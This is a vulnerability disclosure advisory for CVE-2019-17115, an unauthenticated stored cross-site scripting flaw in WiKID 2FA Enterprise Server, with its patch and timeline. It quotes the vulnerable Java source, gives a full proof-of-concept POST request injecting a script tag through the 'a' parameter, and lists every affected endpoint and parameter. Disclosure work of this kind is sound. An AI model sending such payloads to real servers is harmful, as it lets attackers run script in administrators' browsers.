 An unauthenticated stored cross-site scripting vulnerability, CVE-2019-17115, was identified on `WiKID Systems 2FA Enterprise Server` version `4.2.0-b2047` and earlier.  Submitting invalid values, through one of the affected parameters, will cause an error to be logged and stored as a `rendered_message`; the malicious value is retrieved and displayed through **Logs.jsp**.  The error messages are severe enough to be displayed by default. 

## Patch

* **4.2.0.b2053**: <https://downloads.wikidsystems.com/wikid-server-enterprise-4.2.0.b2053-1.noarch.rpm>

## Timeline

* 26 Sep 2019 - Issue discovered on `WiKID Systems 2FA Enterprise Server 4.2.0-b2032`
* 29 Sep 2019 - Issue disclosed to WiKID Systems
* 09 Oct 2019 - Issue confirmed by WiKID Systems, Patch released
* 16 Oct 2019 - Public Disclosure

## Description

Reviewing the source for **Logs.jsp** reveals that `rendered_message` is included, unsanitized, in a string that is constructed and displayed by **Logs.jsp**

~~~
394                 sb.append("<TD class=\"logTableCell\" style=\"white-space:normal;\">")
395                         .append("<a href='./Log.jsp?subString=" + rs.getString("rendered_message") + "'>")
396                         .append("<img src='./images/toolFilter.png' alt='' border=\"0px\" width=\"15px\" height=\"15px\"/></a>")
397                         .append(rs.getString("rendered_message").replaceAll("<", "&lt;").replaceAll(">", "&gt;"))
398                         .append("</TD>");
~~~

A review of `wikid-server-enterprise-lib-4.2.0.jar` revealed several instance where parameters are read and passed to the logger.  One  example can be found in `com.wikidsystems.server.InitDevice5AES`:

~~~
70      try {
71        requestAction = Integer.parseInt(request.getParameter("a"));
72        logger.debug("Determined requested action: " + requestAction);
73      }
74      catch (NumberFormatException nfe) {
75        nfe.printStackTrace();
76        logger.error("IO error during registration -- recieved action: " + request.getParameter("a"), nfe);
77      } 
~~~

Submitting a non-integer value for <var>a</var> will trigger an error and drop into the `catch` block; the <var>a</var> parameter is then included, unsanitized, in the message passed to `logger`, with the severity of **error**.  The following request submits an HTML element as the value for <var>a</var>:

~~~
POST /wikid/servlet/com.wikidsystems.server.InitDevice4AES HTTP/1.1
Host: $RHOST
User-Agent: WiKID J2ME Token
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Payload: dGVzdA==
Connection: close
Upgrade-Insecure-Requests: 1=
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

S=1&a=test'><script>alert('InitDevice5AES - A')</script><!--
~~~

The JavaScript is executed whenever `Log.jsp` is visited:

![](logs.png)

The JavaScript is then visible in source of the page:

~~~{.html}
<a href="./Log.jsp?subString=IO error during registration phase 1 -- recieved action: test"><script>alert('InitDevice5AES - A')</script><!--'><img src='./images/toolFilter.png' alt='' 
~~~

The following parameters and endpoints are known to be vulnerable and do not require authentication:

~~~
(1) H parameter
    - /wikid/servlet/com.wikidsystems.server.GetDomainHash
(2) S parameter 
    - /wikid/DomainData 
    - /wikid/PreRegisterLookup 
    - /wikid/PreRegister 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES 
(3) a parameter
    - /wikid/PreRegisterLookup 
    - /wikid/InitDevice 
    - /wikid/servlet/InitDevice2S 
    - /wikid/servlet/InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice2S 
    - /servlet/com.wikidsystems.server.InitDevice3S 
    - /servlet/com.wikidsystems.server.InitDevice4S 
    - /wikid/servlet/com.wikidsystems.server.InitDevice4AES 
    - /wikid/servlet/com.wikidsystems.server.InitDevice5AES
~~~
